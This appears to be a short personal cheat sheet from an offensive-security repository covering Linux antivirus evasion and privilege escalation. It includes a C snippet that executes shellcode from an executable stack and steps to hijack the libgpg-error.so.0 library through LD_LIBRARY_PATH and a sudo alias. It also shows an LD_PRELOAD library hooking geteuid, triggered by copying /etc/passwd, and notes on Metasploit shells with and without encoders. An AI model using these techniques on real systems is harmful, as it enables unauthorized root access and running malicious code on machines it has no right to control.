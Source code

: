 * Linux AV is bad with custom c binarys

## Shellcode execute
```
int (*ret)() = (int(*)())buf;
ret();
```
```
gcc -o example example.c -z execstack
```

## PE
* If there is auto task running with sudo, try hijacking
* may not works depends on secure path setting
* TODO: test cross compilation
* TODO: msf shell with\without encoder
* Worked: normal without encoder + on target


### libgpg-error.so.0
```
export LD_LIBRARY_PATH=[path to libgpg-error.so.0's folder]
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print $8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```
```
gcc -Wall -fPIC -c -o test.o test.c
gcc -shared -Wl,--version-script [path to symbol map file ] -o libgpg-error.so.0 test.o
```
```
alias sudo="sudo LD_LIBRARY_PATH=[path to libgpg-error.so.0's folder]"
```


### geteuid
```
gcc -Wall -fPIC -z execstack -c -o test.o test.c
gcc -shared -o test.so test.o -ldl
export LD_PRELOAD=[path to so file]
```
* triger
```
cp /etc/passwd /tmp/test
```

